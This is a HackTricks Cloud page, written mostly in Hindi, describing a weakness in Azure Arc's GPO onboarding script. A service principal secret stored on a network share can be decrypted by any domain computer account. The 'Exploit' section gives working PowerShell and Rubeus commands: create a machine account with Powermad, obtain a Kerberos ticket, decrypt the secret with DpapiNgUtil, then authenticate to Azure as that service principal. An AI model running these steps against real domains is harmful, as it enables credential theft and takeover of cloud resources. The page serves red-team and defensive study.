 # Az - Arc vulnerable GPO Deploy Script

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Identifying the Issues

Azure Arc नए आंतरिक सर्वरों (जुड़े हुए डोमेन सर्वर) को Azure Arc में Group Policy Object विधि का उपयोग करके एकीकृत करने की अनुमति देता है। इसे सुविधाजनक बनाने के लिए, Microsoft एक तैनाती उपकरण प्रदान करता है जो ऑनबोर्डिंग प्रक्रिया शुरू करने के लिए आवश्यक है। ArcEnableServerGroupPolicy.zip फ़ाइल के अंदर, निम्नलिखित स्क्रिप्टें पाई जा सकती हैं: DeployGPO.ps1, EnableAzureArc.ps1, और AzureArcDeployment.psm1।

जब इसे निष्पादित किया जाता है, तो DeployGPO.ps1 स्क्रिप्ट निम्नलिखित कार्य करती है:

1. स्थानीय डोमेन के भीतर Azure Arc Servers Onboarding GPO बनाती है।
2. EnableAzureArc.ps1 ऑनबोर्डिंग स्क्रिप्ट को ऑनबोर्डिंग प्रक्रिया के लिए बनाए गए निर्दिष्ट नेटवर्क शेयर में कॉपी करती है, जिसमें Windows इंस्टॉलर पैकेज भी शामिल है।

इस स्क्रिप्ट को चलाते समय, सिस्टम प्रशासकों को दो मुख्य पैरामीटर प्रदान करने की आवश्यकता होती है: **ServicePrincipalId** और **ServicePrincipalClientSecret**। इसके अतिरिक्त, इसे डोमेन, शेयर होस्ट करने वाले सर्वर का FQDN, और शेयर नाम जैसे अन्य पैरामीटर की आवश्यकता होती है। स्क्रिप्ट को टेनेट आईडी, संसाधन समूह, और अन्य आवश्यक जानकारी जैसे विवरण भी प्रदान करने होंगे।

DPAPI-NG एन्क्रिप्शन का उपयोग करके निर्दिष्ट शेयर पर AzureArcDeploy निर्देशिका में एक एन्क्रिप्टेड सीक्रेट उत्पन्न होता है। एन्क्रिप्टेड सीक्रेट को encryptedServicePrincipalSecret नामक फ़ाइल में संग्रहीत किया जाता है। इसका प्रमाण DeployGPO.ps1 स्क्रिप्ट में पाया जा सकता है, जहां एन्क्रिप्शन को $descriptor और $ServicePrincipalSecret को इनपुट के रूप में कॉल करके किया जाता है। डिस्क्रिप्टर में डोमेन कंप्यूटर और डोमेन कंट्रोलर समूह SIDs शामिल होते हैं, यह सुनिश्चित करते हुए कि ServicePrincipalSecret को केवल डोमेन कंट्रोलर्स और डोमेन कंप्यूटर सुरक्षा समूहों द्वारा ही डिक्रिप्ट किया जा सकता है, जैसा कि स्क्रिप्ट टिप्पणियों में उल्लेख किया गया है।
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

हमारे पास निम्नलिखित शर्तें हैं:

1. हम आंतरिक नेटवर्क में सफलतापूर्वक प्रवेश कर चुके हैं।
2. हमारे पास Active Directory के भीतर एक कंप्यूटर खाते को बनाने या उस पर नियंत्रण करने की क्षमता है।
3. हमने AzureArcDeploy निर्देशिका को शामिल करने वाले एक नेटवर्क शेयर का पता लगाया है।

AD वातावरण में एक मशीन खाते को प्राप्त करने के कई तरीके हैं। सबसे सामान्य तरीकों में से एक मशीन खाता कोटा का शोषण करना है। एक और तरीका कमजोर ACLs या विभिन्न अन्य गलत कॉन्फ़िगरेशन के माध्यम से मशीन खाते से समझौता करना है।
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
एक बार मशीन खाता प्राप्त हो जाने पर, इस खाते का उपयोग करके प्रमाणीकरण करना संभव है। हम या तो netonly ध्वज के साथ runas.exe कमांड का उपयोग कर सकते हैं या Rubeus.exe के साथ पास-थी-टिकट का उपयोग कर सकते हैं।
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
हमारी कंप्यूटर खाता के लिए TGT को मेमोरी में संग्रहीत करके, हम सेवा प्रमुख गुप्त को डिक्रिप्ट करने के लिए निम्नलिखित स्क्रिप्ट का उपयोग कर सकते हैं।
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
वैकल्पिक रूप से, हम [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG) का उपयोग कर सकते हैं।

इस बिंदु पर, हम ArcInfo.json फ़ाइल से Azure से कनेक्ट करने के लिए आवश्यक शेष जानकारी एकत्र कर सकते हैं, जो एन्क्रिप्टेडServicePrincipalSecret फ़ाइल के समान नेटवर्क शेयर पर संग्रहीत है। इस फ़ाइल में विवरण शामिल हैं: TenantId, servicePrincipalClientId, ResourceGroup, और अधिक। इस जानकारी के साथ, हम Azure CLI का उपयोग करके समझौता किए गए सेवा प्रमुख के रूप में प्रमाणीकरण कर सकते हैं।

## संदर्भ

* [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
